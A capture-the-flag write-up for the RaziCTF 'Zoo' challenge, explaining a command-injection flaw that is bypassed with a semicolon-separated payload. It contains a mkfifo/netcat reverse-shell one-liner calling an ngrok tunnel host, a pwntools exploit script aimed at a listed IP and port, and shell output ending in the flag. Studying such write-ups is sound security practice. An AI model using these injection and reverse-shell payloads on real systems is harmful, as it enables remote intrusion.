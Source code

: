 You notice that when executing Zoo locally, it asks you to name an animal to feed. What actually happens is that it executes
the input that it gives "./input". By analysing the binary in ghidra you also notice that the only check is for a substring
equal to one of the animals to exist in your program. However you can't simply do Apes;ls, since then you'd run the program
"Apes", and you have no idea what that does. Thus I tried doing "a;ls;Apes", but I noticed that for some reason the output
wasn't piping to the terminal (if ran locally all output would print when exiting the program). This does however mean that
the server executes all commands that are run, but the output is hidden. The solution to this is spawning a reverse shell,
which can be done in a lot of different ways. The way I did it was with "ngrok", since I wasn't able to port forward.


First I set up a listener, for example ```nc -lvnp 1234```.

Then, I ran ngrok so that I could connect remotely ```ngrok tcp 1234```,
which set up a process listening on 2.tcp.ngrok.io 13638. Now all that needs to be done is connect a shell from the server
to my listener, which was done with the command ```mkfifo /tmp/ptsd; nc 2.tcp.ngrok.io 13638 0</tmp/ptsd | /bin/sh > /tmp/ptsd 2>&1; rm /tmp/ptsd```. What this does is create a named pipe file as /tmp/ptsd, then connect stdin to this file via nc to my listener, and stdout/stderr to /bin/sh which then executes those commands.

https://metahackers.pro/reverse-shells-101/

Full exploit below - automated with pwntools:
```py
#!/usr/bin/env python3

from pwn import *

HOST = "37.152.181.193"
PORT = 1337

#p = process("./Zoo")
p = remote(HOST, PORT)

payload = b'a;mkfifo /tmp/ptsd; nc 2.tcp.ngrok.io 13638 0</tmp/ptsd | /bin/sh > /tmp/ptsd 2>&1; rm /tmp/ptsd;Apess'

p.sendlineafter("us:", payload)
p.interactive() 
```

and output:
```
~ ❯ nc -lvnp 1234                                                                               took 2m 15s
Listening on 0.0.0.0 1234
Connection received on 127.0.0.1 58984
id
uid=1001(Zooo) gid=1001(Zooo) groups=1001(Zooo)
ls
Apes
Bats
Bears
Flag.txt
Foxes
Hogs
Lions
Tigers
Zebras
bin
run
cat Flag.txt
RaziCTF{st4y_s4f3_dur!n9_th!s_p4nd3m!c}
```
